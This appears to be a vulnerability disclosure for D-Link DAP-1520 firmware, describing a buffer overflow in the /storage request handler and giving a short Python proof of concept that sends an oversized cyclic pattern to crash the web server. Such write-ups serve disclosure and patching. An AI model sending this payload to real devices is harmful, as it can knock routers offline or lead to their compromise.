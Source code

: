  

## overview

| Firmware Name | Firmware Version         | Firmware Link                                                |
| ------------- | ------------------------ | ------------------------------------------------------------ |
| DAP-1520      | DAP1520A1_FW110b04beta02 | http://legacyfiles.us.dlink.com/DAP-1520/REVA/FIRMWARE/DAP-1520_REVA_FIRMWARE_1.10B04_BETA02_HOTFIX.zip |

## Analysis

This first checks to see if /storage is included. If it is, a2+260 is copied to the v17 array, which has a size of 1024. There is a buffer overflow vulnerability, and v17 is passed to replace as an argument_special_cher function.

![c92161bb07ff484094cd9406b22c809](./assets/c92161bb07ff484094cd9406b22c809.png)

Next, in replace_special_In char function, v17 is copied to v13 variable,

![cc72fa3689496e3012264c36f8f60cb](./assets/cc72fa3689496e3012264c36f8f60cb.png)

v13 is only 600 in size, which will cause a buffer overflow, and since this buffer overflow will precede the previous one, the previous overflow will not occur.

![9a854481ae4d16bd8844a5ae5b218eb](./assets/9a854481ae4d16bd8844a5ae5b218eb.png)

## POC

```
import requests
from pwn import *
ip = "127.0.0.1"
port = 80
url = f"http://{ip}:{port}/storage/{cyclic(620).decode('utf-8')}?"
print(requests.get(url).text)
```

## Vulnerability Verification

![c1f7dd07e69a3738727e395041bb118](./assets/c1f7dd07e69a3738727e395041bb118.png)